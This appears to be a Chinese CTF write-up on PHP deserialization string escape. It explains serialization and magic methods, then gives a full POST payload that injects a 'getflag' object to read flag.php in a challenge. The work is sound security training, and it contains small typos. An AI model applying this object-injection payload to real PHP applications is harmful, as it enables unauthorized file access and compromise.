



## Web-反序列化漏洞

## 题目

给出了一段php代码，看样子就是把`str1`和`str2`并起来进行序列化，然后把所有的`easy`替换为`ez`，再反序列化输出

## 题解
这是一道考察序列化和反序列化的题目。
通过观察代码发现，`str1`接收的是POST请求中`easy`的数据，`str2`接收的是POST请求中`ez`的数据，那么每次POST构造只需要构造好`easy`和`ez`即可。
概念：
+ **序列化**：是将 PHP 对象转换为字符串的过程，可以使用 serialize() 函数来实现。该函数将对象的状态以及它的类名和属性值编码为一个字符串。序列化后的字符串可以存储在文件中，存储在数据库中，或者通过网络传输到其他地方。
+ **反序列化**：是将序列化后的字符串转换回 PHP 对象的过程，可以使用 unserialize() 函数来实现。该函数会将序列化的字符串解码，并将其转换回原始的 PHP 对象。

PHP之中的对象拥有一个生命周期，在生命周期中会调用魔术方法，在本题中也就是`__destruct`和`__construct`
+ `__destruct`：在PHP中，当一个对象被销毁（例如，脚本结束或对象被手动 unset）时，__destruct方法会自动被调用。
+ `__construct`：当创建类的新实例时，会自动调用此函数。


```php
<?php
class User {
    public $name;

    public function __construct($name) {
        $this->name = $name;
    }
}
$user = new User(array("Probius","Official"));
$serializedData = serialize($user);
echo $serializedData . "\n";
```
诸如以上代码，最终`serializedData`就是这样


那我们来看本题当中如果把`data`序列化以后会是什么模样
```php
# 假定easy='fuck'
# 假定ez='shitt'
# 得到的序列化以后的data就是：
O:3:"tmp":2:{s:4:"str1";s:4:"fuck";s:4:"str2";:s:5:"shitt";}
```
PHP反序列化字符逃逸的本质其实也是闭合，但是它分为两种情况，一是字符变多，二是字符变少，这里针对的是字符变少，因为把`eazy`替换为`ez`后，原先计算的长度不变，但真实字符的数量却变少了，这样就可以构造闭合修改`str2`的类型和值。
我们把包抓到burp中进行构造，然后发现以下payload便可得到flag。
```php
easy=easyeasyeasyeasyeasyeasyeasyeasyeasy&ez=;s:4:"str2";O:7:"getflag":1:{s:4:"file";s:8:"flag.php";}

# 得到的序列化且替换字符后的data就是：
O:3:"tmp":2:{s:4:"str1";s:36:"ezezezezezezezezez";s:4:"str2";s:56:";s:4:"str2";O:7:"getflag":1:{s:4:"file";s:8:"flag.php";}"}
# str1的值变成了ezezezezezezezezez";s:4:"str2";s:56:
# str2的值变成了一个getflag的类，其中file的名字为flag.php，成功逃逸
```


## 参考材料
[[CTF/Web] PHP 反序列化学习笔记](https://blog.kengwang.com.cn/archives/599/)
[2021暨南大学CTF新生杯（Web篇）](https://blog.csdn.net/weixin_51485807/article/details/121695150)